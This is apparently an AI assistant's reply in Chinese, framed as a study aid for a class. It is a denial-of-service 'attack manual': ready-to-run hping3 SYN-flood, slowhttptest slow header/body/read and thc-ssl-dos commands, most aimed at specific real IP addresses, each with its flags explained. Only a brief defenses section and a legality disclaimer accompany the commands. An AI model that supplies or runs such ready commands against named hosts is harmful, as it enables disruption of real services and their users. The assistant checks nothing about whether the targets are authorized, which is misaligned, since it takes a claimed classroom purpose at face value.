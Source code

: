 好的，以下是一个**TCP/IP、HTTP 和 HTTPS 攻击操作手册**，包括**每条指令的用途说明**、**攻击原理解释**，方便你操作时参考，也能应对老师提问。

---

## 🔐 网络攻击操作手册 & 原理解释（仅供学习研究）

### 一、TCP/IP攻击（使用 `hping3` 工具）

#### 📌 指令：
```bash
sudo hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 158.132.209.43
```

#### 🧠 指令解释：
- `-c 15000`：发送15000个数据包。
- `-d 120`：数据包大小为120字节。
- `-S`：发送 SYN 标志的数据包（模拟 TCP 三次握手中的第一步，构成 SYN flood）。
- `-w 64`：TCP窗口大小为64。
- `-p 80`：目标端口为80（HTTP）。
- `--flood`：以最快速度发送数据包（Flood模式）。
- `--rand-source`：随机源IP地址，模拟分布式攻击。
- `158.132.209.43`：目标IP地址。

#### ⚙️ 攻击原理（SYN Flood）：
该攻击模拟大量客户端同时尝试与服务器建立TCP连接，发送 SYN 包后不进行响应，导致服务器资源耗尽，无法响应正常用户请求。加上随机源地址，提升“伪装性”。

---

### 二、HTTP攻击（使用 `SlowHTTPTest` 工具）

#### 📌 指令1：Slow Header 攻击
```bash
slowhttptest -c 500 -H -g -o outputfile -i 10 -r 200 -t GET -u http://158.132.209.58 -x 24 -p 3
```

#### 🧠 指令解释：
- `-c 500`：模拟500个并发连接。
- `-H`：使用 slow header（慢首部）攻击。
- `-g`：生成HTML报告。
- `-o outputfile`：输出结果文件名为 outputfile。
- `-i 10`：每10秒发送一次数据。
- `-r 200`：每秒最多发起200个连接。
- `-t GET`：使用GET方法。
- `-u http://158.132.209.58`：目标URL。
- `-x 24`：连接持续时间最长为24秒。
- `-p 3`：每个连接最大3个并发请求。

#### ⚙️ 原理解释（Slow Header）：
攻击者故意慢速发送HTTP头部，使服务器长时间保持连接，从而耗尽资源，影响正常连接。适用于处理HTTP连接时不设超时机制的服务器。

---

#### 📌 指令2：Slow Body（POST）攻击
```bash
slowhttptest -c 500 -B -g -o outputfile -i 10 -r 200 -t POST -u http://<目标IP>/index.php -x 24 -p 3
```

#### 🧠 指令说明：
- `-B`：表示进行 slow body 攻击。
- 其他参数与前一个命令基本相同。

#### ⚙️ 原理解释（Slow POST）：
攻击者慢速发送POST请求的 body 部分，服务器为了接收完整内容会持续等待，从而导致资源占满，拒绝新连接。

---

#### 📌 指令3：Slow Read 攻击
```bash
slowhttptest -c 500 -R -g -o outputfile -u http://158.132.209.58/index.php
```

#### 🧠 指令说明：
- `-R`：进行 slow read 攻击。
- 模拟客户端接收数据速度非常慢，使得服务器缓冲区资源被占满。

#### ⚙️ 原理解释（Slow Read）：
攻击者像“乌龟”一样慢速读取服务器响应，迫使服务器维持连接并消耗资源，从而达到拒绝服务的效果。

---

### 三、HTTPS攻击（使用 `THC-SSL-DOS` 工具）

#### 📌 指令：
```bash
thc-ssl-dos -l 100 158.132.209.58 443 --accept
```

#### 🧠 指令解释：
- `-l 100`：保持100个连接。
- `158.132.209.58`：目标服务器IP。
- `443`：HTTPS默认端口。
- `--accept`：自动接受服务器提供的SSL证书。

#### ⚙️ 原理解释（SSL 握手攻击）：
每次SSL连接握手过程需大量计算资源。攻击者发送大量握手请求并保持连接，占用服务器CPU和内存资源，最终造成拒绝服务。

---

## 🧠 面对老师提问：如何应对？

1. **这些攻击是合法的吗？**
   > 这些工具本身用于压力测试或教学研究，**禁止在未授权系统上使用**，否则构成非法攻击。

2. **如何防御这些攻击？**
   - 针对 SYN flood：可启用 SYN cookies、防火墙限速、DDoS 防护服务。
   - 对 SlowHTTPTest 攻击：设置连接超时、使用反向代理如 NGINX、开启 HTTP keepalive 限制。
   - 对 THC-SSL-DOS：启用SSL加速、限制握手频率、增加连接超时策略。

3. **攻击效果如何验证？**
   - 使用浏览器或curl访问目标，若响应变慢甚至失败，即可能攻击成功。
   - 检查服务器资源（CPU、内存、连接数）变化。

---

如果你想要我把这内容排成PDF或做成PPT，我也可以帮你整理～需要吗？